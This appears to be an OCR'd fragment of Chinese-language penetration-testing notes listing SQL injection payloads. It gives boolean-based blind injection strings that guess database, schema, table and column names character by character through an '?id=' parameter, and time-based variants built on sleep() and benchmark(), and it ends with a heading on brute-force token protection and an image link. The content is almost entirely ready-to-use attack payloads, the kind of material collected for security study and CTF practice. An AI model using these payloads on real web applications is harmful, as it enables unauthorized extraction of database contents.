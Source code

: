 ### **布尔盲注**

```mysql
# 判断当前库名长度和所有库名的长度
?id=0' and length(database())>5 --+
?id=0' and length((select group_concat(schema_name) from
information_schema.schemata))=90--+
# 判断当前库名
?id=0' and (substr(database(),1,1))>'a' --+
?id=0' and ascii(substr(database(),1,1))>100 --+
?id=0' and ascii(substr((select group_concat(schema_name) from information_schema.schemata limit 0,1),1,1))=112 --+
# 判断表
?id=0' and ascii(substr((select group_concat(table_name) from information_schema.tables limit 0,1),1,1))=112 --+
# 判断字段
?id=0' and ascii(substr((select group_concat(column_name) from information_schema.columns limit 0,1),1,1))=112 --+
```

### **时间盲注**

```mysql
# 布尔的payload 套一层 if slee() 就可以变成 时间盲注
# 语法1. sleep()函数:让数据库暂停n秒, if(select database(),sleep(5),1)
# 语法2. benchmark()函数:命令执行次数, benchmark(50000000,md5('1'))
# 判断注入
?id=0' and sleep(5) --+
?id=0' and benchmark(50000,md5('1'))--+
# 判断库名长度
?id=0' and if(length((select group_concat(schema_name) from information_schema.schemata))=90,sleep(5),0) --+
# 判断库名
?id=0' and if(ascii(substr((select group_concat(schema_name) from information_schema.schemata limit 0,1),71,1))=112,sleep(5),0) --+
```

#### **token防爆破**

![image-20220206180531938](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202116364.png)
